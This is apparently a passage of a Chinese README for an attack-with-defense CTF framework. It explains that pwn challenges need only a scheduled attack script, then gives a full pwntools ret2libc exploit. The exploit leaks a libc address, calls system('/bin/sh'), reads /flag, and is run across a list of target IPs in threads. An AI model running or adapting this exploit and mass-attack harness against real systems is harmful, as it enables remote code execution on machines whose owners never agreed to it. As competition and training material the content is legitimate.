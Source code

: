 

### `awdframework/encoder.py`

工具类，用来更方便地 encode 和 decode 



## 如果是 pwn

pwn 的话不用写 webshell ，因此只需要参考 `直接攻击，获取 flag` ，配置定时运行直接攻击的脚本就行

比如：

`inhann/example/pwn.py` ：

```python
from utils.awd import Attack, AwdTask
from os.path import dirname
import pwn
from LibcSearcher import LibcSearcher


class Exp(AwdTask):
    def __init__(self, ips, port=80):
        super().__init__(ips, port)

    def exp(self, ip):
        sh = pwn.remote(ip, self.port)
        pwn.context.arch = "i386"
        payload = pwn.flat(chr(0) * (0x2c - 0x25), 0x80)
        sh.sendline(payload)
        e = pwn.ELF("/home/autoattack/ctf")
        write_got = e.got["write"]
        write_plt = e.plt["write"]
        # main_addr = e.symbols["main"]
        main_addr = 0x08048825

        payload = pwn.flat(chr(0) * (0xe7 + 4), write_plt, main_addr, 1, write_got, 4)
        sh.sendline(payload)
        sh.recvuntil("Correct\n")
        write_addr = pwn.u32(sh.recv(4))
        libc = LibcSearcher("write", write_addr)
        libc_base = write_addr - libc.dump("write")
        system_addr = libc_base + libc.dump("system")
        bin_sh_addr = libc_base + libc.dump("str_bin_sh")

        payload = pwn.flat(chr(0) * (0x2c - 0x25), 0x80)
        sh.sendline(payload)

        payload = pwn.flat(chr(0) * (0xe7 + 4), system_addr, 0xdeadbeef, bin_sh_addr)
        sh.recvuntil("Correct\n")
        sh.sendline(payload)

        # 本来是 interactive，现在直接执行命令
        # sh.interactive()
        sh.sendline(b"cat /flag")
        result = sh.recvall()
        print(result)


attacker = Attack(f"{dirname(__file__)}\..\..\ip.txt", Exp, port=27782, thread_num=5)
attacker.attack()
```
